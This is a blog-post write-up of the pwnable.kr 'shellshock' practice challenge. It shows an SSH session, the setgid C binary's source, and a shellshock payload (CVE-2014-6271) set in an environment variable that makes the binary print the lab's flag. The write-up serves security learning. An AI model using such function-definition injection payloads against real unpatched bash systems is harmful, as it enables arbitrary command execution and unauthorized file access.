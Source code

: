 ```yaml
---
layout:     post
title:      "Pwnable.kr - shellshock"
date:       2018-01-19 0:00:00
author:     "W3ndige"
permalink: /:title/
category: 'Write-Ups'
---
```


Today I'm going to show you how to exploit a vulnerability in ***shellschock***  challenge from [pwnable.kr](http://pwnable.kr "pwnable.kr").

### Solution

Firstly we'll have to connect via `ssh` to the server hosting this challenge.

{% highlight bash %}
main:~ > ssh shellshock@pwnable.kr -p2222
shellshock@pwnable.krs password:
 ____  __    __  ____    ____  ____   _        ___      __  _  ____  
|    \|  |__|  ||    \  /    ||    \ | |      /  _]    |  |/ ]|    \
|  o  )  |  |  ||  _  ||  o  ||  o  )| |     /  [_     |  ' / |  D  )
|   _/|  |  |  ||  |  ||     ||     || |___ |    _]    |    \ |    /
|  |  |  `  '  ||  |  ||  _  ||  O  ||     ||   [_  __ |     \|    \
|  |   \      / |  |  ||  |  ||     ||     ||     ||  ||  .  ||  .  \
|__|    \_/\_/  |__|__||__|__||_____||_____||_____||__||__|\_||__|\_|

- Site admin : daehee87.kr@gmail.com
- IRC : irc.netgarage.org:6667 / #pwnable.kr
- Simply type "irssi" command to join IRC now
- files under /tmp can be erased anytime. make your directory under /tmp
- to use peda, issue `source /usr/share/peda/peda.py` in gdb terminal
Last login: Fri Jan 19 07:08:33 2018 from 46.164.98.87
shellshock@ubuntu:~$ ls -la
total 980
drwxr-x---  5 root shellshock       4096 Oct 23  2016 .
drwxr-xr-x 87 root root             4096 Dec 27 23:17 ..
-r-xr-xr-x  1 root shellshock     959120 Oct 12  2014 bash
d---------  2 root root             4096 Oct 12  2014 .bash_history
-r--r-----  1 root shellshock_pwn     47 Oct 12  2014 flag
dr-xr-xr-x  2 root root             4096 Oct 12  2014 .irssi
drwxr-xr-x  2 root root             4096 Oct 23  2016 .pwntools-cache
-r-xr-sr-x  1 root shellshock_pwn   8547 Oct 12  2014 shellshock
-r--r--r--  1 root root              188 Oct 12  2014 shellshock.c
{% endhighlight %}

From now on, we're ready to play with the challenge. First thing I notice is that flag is only accessible by user `shellshock_pwn`, other than my user called `shellshock`. But luckily, the binary is also using `shellshock_pwn` GID. Then, following my usual steps, I decide to check out the source code.

{% highlight c %}
#include <stdio.h>
int main(){
	setresuid(getegid(), getegid(), getegid());
	setresgid(getegid(), getegid(), getegid());
	system("/home/shellshock/bash -c 'echo shock_me'");
	return 0;
}
{% endhighlight %}

In order to check what `setresgid`, `setresuid` and `getegid` are I decided to look at the ***man pages*** for these functions. Here's the quick walkthrough.

{% highlight text %}
setresuid() sets the real user ID, the effective user ID, and the
saved set-user-ID of the calling process.

An  unprivileged  process may change its real UID, effective UID,
and saved set-user-ID, each to one of: the current real UID,  the
current effective UID or the current saved set-user-ID.

A  privileged  process (on Linux, one having the CAP_SETUID capa‐
bility) may set its real UID, effective UID, and saved  set-user-
ID to arbitrary values.

If one of the arguments equals -1, the corresponding value is not
changed

Completely analogously, setresgid() sets the real GID,  effective
GID,  and  saved  set-group-ID of the calling process (and always
modifies the filesystem GID to be the same as the effective GID),
with the same restrictions for unprivileged processes.
{% endhighlight %}

{% highlight text %}
The getegid() function shall return the effective group ID of the
calling process
{% endhighlight %}

In the other words, this program will run with the group ID of the owner, which is `shellshock_pwn`. Just as the ID of the flag. That's good news.

Now let's look at the challenge name once again. Shellshock is the name of the vulnerability disclosed on 24 September 2014. It allows an attacker to execute arbitrary commands on the vulnerable versions of bash.

Vulnerability can be tested with the following command.

{% highlight bash %}
env x='() { :;}; echo vulnerable' bash -c "echo this is a test"
{% endhighlight %}

We can use the snippet to perform our own shellshock on this vulnerable binary. Firstly, let's modify this command to view the flag for us.

{% highlight bash %}
export x="() { :;}; /bin/cat flag "
{% endhighlight %}

Export is only used to save the variable, and then run the binary - just like that.

{% highlight bash %}
shellshock@ubuntu:~$ export x="() { :;}; /bin/cat flag "
shellshock@ubuntu:~$ ./shellshock
only if I knew CVE-2014-6271 ten years ago..!!
Segmentation fault
{% endhighlight %}

### Tools used
No external tools used.

### Reference/notes
[https://en.wikipedia.org/wiki/Shellshock_software_bug](https://en.wikipedia.org/wiki/Shellshock_software_bug)

[https://www.owasp.org/images/1/1b/Shellshock_-_Tudor_Enache.pdf](https://www.owasp.org/images/1/1b/Shellshock_-_Tudor_Enache.pdf)

[http://seclists.org/oss-sec/2014/q3/650](http://seclists.org/oss-sec/2014/q3/650)

[https://blog.cloudflare.com/inside-shellshock/](https://blog.cloudflare.com/inside-shellshock/)

